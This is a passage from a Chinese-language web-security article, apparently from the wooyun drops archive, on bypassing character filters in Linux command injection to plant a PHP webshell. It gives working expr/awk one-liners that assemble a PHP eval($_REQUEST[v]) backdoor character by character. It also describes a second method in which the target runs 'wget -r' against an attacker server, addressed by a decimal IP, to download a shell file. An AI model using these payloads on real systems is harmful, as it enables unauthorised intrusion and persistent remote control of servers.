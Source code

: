 #### 2)

```
Cat  test.`expr substr $(awk NR==1 xxx)  2 1`php  > xxoo  //将test.php 写入xxoo文件，方便后面读取。

```

#### 3)

```
echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php;     //所需的字符从替换成xxoo文件中的字符。

```

### 第二种方法:

通过下载文件得到shell,这种方法要省事很多,要解决的关键还是.(点),还有//(路径符).(点)的解决可以用数字IP的方法绕过.

需要条件:

```
外网能用ip访问的webserver,以及目标存在wget程序和当前目录有写文件权限。 

```

在线转换链接:

```
http://tool.chinaz.com/ip/?IP=127.0.0.1

```

![2014030416412310827.png](http://drops.javaweb.org/uploads/images/d6e64fe04e952a662bf868c64ad5865b636c6a35.jpg)

以本机为例（ubuntu +apache2:）

```
1.先转换得到数字ip  127.0.0.1 = 2130706433 
2.将外网的服务器的php解析去掉,在apache配置文件中将下面参数注释 
#LoadModule php5_module /usr/lib/apache2/modules/libphp5.so 
3.在根目录创建index.html文件,内容为`<a href="shell.php">test</a>`，创建shell.php 内容是马. 
4.使用wget 整站下载功能下载（wget自动沿着href 指向爬到shell.php并下载） 
Ps:貌似用301跳转也可以,不过我没有测试 

```

参数: wget -r 2130706433  

效果如下图，下载后以目录结构的方式保存文件得到shell。

![2014030416425192388.png](http://drops.javaweb.org/uploads/images/efd08e19968ba4351e06d89da005c00d2e1f9eab.jpg)

0x03 最后
-------

* * *

欢迎大家指正错误或纰漏，以此文为例，希望大家分享一些linux shell下绕过字符过滤写shell的方法，

最后感谢月哥悉心的指导。